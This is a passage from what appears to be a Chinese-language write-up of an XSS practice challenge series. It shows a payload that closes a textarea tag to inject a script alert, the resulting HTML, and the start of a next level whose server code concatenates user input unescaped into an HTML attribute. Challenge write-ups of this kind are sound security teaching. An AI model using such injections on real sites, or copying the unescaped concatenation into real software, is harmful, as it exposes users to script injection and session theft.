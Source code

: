 ```
在<textarea>中,没有过滤,构造闭合
```

## input code:

```
1. </textarea><script>alert('1')</script>
```


## html:

 ```
1. <textarea></textarea><script>alert('1')</script></textarea>
 ```

![001](/img/xss/haozi/001.png)

# 0x02

## server code:

```
function render (input) {
  return '<input type="name" value="' + input + '">'
}
```
